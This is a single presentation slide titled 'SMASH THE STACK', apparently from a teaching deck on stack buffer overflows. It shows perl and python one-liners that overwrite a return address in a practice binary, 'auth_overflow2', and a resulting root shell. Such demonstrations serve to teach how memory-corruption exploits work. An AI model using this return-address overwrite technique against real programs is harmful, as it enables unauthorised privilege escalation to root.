

# SMASH THE STACK
$ ./auth_overflow2 $(perl -e 'print "\xc7\xf9\xff\xbf"x40')
sh-3.2# whoami
root
sh-3.2#

or use python:
$ ./auth_overflow2 $(python -c "print '\xc7\xf9\xff\xbf'*40")
^ Remember, x86 architecture is little endian